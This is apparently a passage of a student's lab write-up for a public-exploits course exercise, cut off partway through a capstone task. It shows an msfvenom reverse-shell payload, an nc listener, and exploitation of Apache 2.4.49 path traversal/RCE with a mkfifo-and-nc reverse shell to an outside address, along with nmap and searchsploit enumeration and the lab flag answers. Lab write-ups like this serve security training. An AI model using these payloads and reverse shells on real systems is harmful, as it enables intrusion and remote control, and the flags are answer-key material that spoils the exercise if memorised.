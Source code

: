 ```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o revshell.exe
# Host payload exe on http.server
# Open Listener tab
nc -nlvp 4444

# Run
python3 50972.py 192.168.198.10 192.168.45.171:80 revshell.exe
```

> Answer:  OS{b8eb34e322b040a22cab87dcbe1bd67e}



2. Start and exploit the _PublicExploits02_ machine.

```bash
# Enumerate
nmap -Pn 192.168.187.188 -n -v -p- --max-scan-delay=0
PORT   STATE SERVICE
	80/tcp open  http

nmap -sV 192.168.187.188 -p 80
	PORT   STATE SERVICE VERSION
	80/tcp open  http    Apache httpd 2.4.49 ((Unix))

# Search for payload
searchsploit apache 2.4
	Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)   | multiple/webapps/50383.sh

# Download
searchsploit -m 50383.sh

# Review code
# Copy/ paste example from code & replace with own command.  (for some reason wasn't working when I typed the entire command out myself)
	# Ex from code:   PoC.sh targets.txt /bin/sh whoami

./50383.sh targets.txt /bin/sh "cat /home/offsec/flag.txt"

# OR use a reverse shell using pipes
./50383.sh targets.txt /bin/sh "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.214 4444 >/tmp/f"
```

> Answer:  OS{e0d3cae709f265bc848e57aa5c325fc8}



3. **Capstone Exercise**: An exploitable server is running services on several ports on the exercise VM, _PublicExploits03_. Treat this like a real box and start by identifying what services are running. There is a local user _student_ on this box with the password _lab_. Exploit the vulnerable service and SSH to the box to read _flag.txt_ located in _/home/challenge/_

```bash
# Enumerate
nmap -Pn -n -v -p- 192.168.187.52 --max-scan-delay=0
	PORT      STATE SERVICE
	22/tcp    open  ssh
	32822/tcp open  unknown
	32823/tcp open  unknown
	32824/tcp open  unknown
	32825/tcp open  unknown
	32826/tcp open  unknown

# Attempt to version
nmap -sV 192.168.187.52 -p 22,32822,32823,32824,32825,32826
	PORT      STATE  SERVICE     VERSION
```